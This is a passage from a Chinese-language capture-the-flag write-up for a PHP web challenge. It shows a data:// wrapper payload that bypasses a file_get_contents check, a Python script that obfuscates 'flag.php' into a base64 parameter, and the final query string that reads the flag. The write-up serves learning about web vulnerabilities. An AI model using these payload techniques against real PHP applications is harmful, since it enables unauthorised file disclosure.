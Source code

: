 没报地址错误说明成功了。

接下来考虑这个 `file_get_contents($_GET['2333'])`, 这个文件显然是不存在的, 想到用伪协议应该可以通过:

```
?2333=data://plain/text,todat is a happy day
```

最后是读取 `flag.php`, 这里的逻辑要求构造 payload 时对 "flag.php" 这个字符串每一位的 ASCII 减去 位数 * 2, 然后再 base64编码:

```python
import base64

que = list("flag.php")

for i in range(len(que)):
    que[i] = chr(ord(que[i]) + - 2*i)

que = ''.join(que)
que = base64.b64encode(que.encode("utf-8"))
print(que)
```

最终 payload:

```
?2333=data://plain/text,todat%20is%20a%20happy%20day&file=ZmpdYSZmXGI=
```

![5-5.png](5-5.png)

拿到 `flag{2d164b21-09e3-4ed7-9efd-916d0d2d42e7}`。
